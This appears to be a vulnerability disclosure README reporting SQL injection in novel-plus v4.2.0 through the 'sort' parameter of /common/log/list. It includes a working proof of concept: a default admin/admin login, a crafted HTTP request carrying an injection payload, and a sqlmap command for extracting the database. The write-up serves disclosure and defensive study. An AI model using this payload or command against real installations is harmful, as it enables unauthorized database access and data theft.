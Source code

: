 # Vulnerability Submitter

Name：qinruiqi
GitHub address：https://github.com/JunFengDeng/qinruiqi/edit/main/20231027/vuln/readme.md

# SQL injection vulnerability exists in novel-plus v4.2.0

Affected version: v4.2.0

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

## Vulnerability Overview

SQL injection vulnerability in Novel-Plus v.4.2.0 allows a remote attacker to execute arbitrary code via a crafted script to the sort parameter in /common/log/list.

## Vulnerability details

Vulnerability route: /common/log/list

Vulnerable parameter: sort

### **Vulnerability source file path 1:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\controller

![1698330555839](../img/1.png)

#### **Vulnerability source file path 2:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\utils\Query.java

![1698330643839](../img/2.png)

#### **Vulnerability source file path 3:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\service\LogService.java

![1698331147638](../img/3.png)

In the LogController class, the @GetMapping("/list") annotation indicates that this method handles GET requests and returns a PageDO<LogDO> object.
In this method, the params parameters obtained from the @RequestParam annotation will be used to construct a Query object and passed to the logService.queryList(query) method for querying.

#### **Vulnerability source file path 4:**

novel-plus-develop_xxy\novel-admin\src\main\resources\mybatis\common\LogMapper.xml

![1698641784640](../img/4.png)

It can be seen that the sort parameter is not verified, filtered, and escaped. An attacker can use malicious input to inject arbitrary SQL code. 

**POC**

"Login to the backend using the default account username/password 'admin/admin' to obtain the administrator cookie."

![1698338638577](../img/5.png)

SQL injection, closure failed, error displayed

![1698340177810](../img/6.png)

SQL injection, successful closure, normal display  

![1698340057189](../img/7.png)

#### **POC**

```http
GET /common/log/list?limit=10&offset=0&sort=(SELECT+(CASE+WHEN+(1=1)+THEN+''+ELSE+(SELECT+1+UNION+SELECT+2)+END))&username HTTP/1.1
Host: 192.168.52.163:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Use SQLmap to extract the current database

SQLmap command

```python
python sqlmap.py -u "http://192.168.52.163:8088/common/log/list?limit=10&offset=0&sort=&username=" --cookie "JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804" -p "sort" --level 3  --current-db --batch
```

![1698340451333](../img/8.png)

